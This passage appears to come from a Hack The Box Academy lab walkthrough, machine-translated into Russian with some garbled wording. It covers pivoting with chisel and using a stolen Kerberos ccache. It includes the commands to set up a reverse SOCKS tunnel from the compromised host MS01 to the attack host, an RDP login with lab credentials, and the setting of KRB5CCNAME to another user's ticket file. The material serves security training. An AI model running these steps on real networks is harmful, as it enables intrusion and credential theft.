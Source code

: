 ```shell-session
lizergindoma@htb[/htb]$ wget https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_linux_amd64.gz
lizergindoma@htb[/htb]$ gzip -d chisel_1.7.7_linux_amd64.gz
lizergindoma@htb[/htb]$ mv chisel_* chisel && chmod +x ./chisel
lizergindoma@htb[/htb]$ sudo ./chisel server --reverse 

2022/10/10 07:26:15 server: Reverse tunneling enabled
2022/10/10 07:26:15 server: Fingerprint 58EulHjQXAOsBRpxk232323sdLHd0r3r2nrdVYoYeVM=
2022/10/10 07:26:15 server: Listening on http://0.0.0.0:8080
```

Подключиться к `MS01`через RDP и запустите chisel (находится в C:\Tools).

#### Подключитесь к MS01 с помощью xfreerdp

Подключитесь к MS01 с помощью xfreerdp

```shell-session
lizergindoma@htb[/htb]$ xfreerdp /v:10.129.204.23 /u:david /d:inlanefreight.htb /p:Password2 /dynamic-resolution
```

#### Выполнить стамеску от MS01

Выполнить стамеску от MS01

```cmd-session
C:\htb> c:\tools\chisel.exe client 10.10.14.33:8080 R:socks

2022/10/10 06:34:19 client: Connecting to ws://10.10.14.33:8080
2022/10/10 06:34:20 client: Connected (Latency 125.6177ms)
```

**Примечание.** IP-адрес клиента — это IP-адрес хоста атаки.

Наконец, нам нужно перенести файл ccache Хулио из `LINUX01`и создайте переменную окружения `KRB5CCNAME`со значением, соответствующим пути файла ccache.

#### Установка переменной среды KRB5CCNAME

Установка переменной среды KRB5CCNAME

```shell-session
lizergindoma@htb[/htb]$ export KRB5CCNAME=/home/htb-student/krb5cc_647401106_I8I133
```

**Примечание.** Если вы не знакомы с операциями передачи файлов, ознакомьтесь с модулем [File Transfers](https://academy.hackthebox.com/module/details/24) .

### Удар

Чтобы использовать билет Kerberos, нам нужно указать имя нашей целевой машины (не IP-адрес) и использовать опцию `-k`. Если мы получим запрос на ввод пароля, мы также можем включить опцию `-no-pass`.

#### Использование Impacket с прокси-цепями и аутентификацией Kerberos
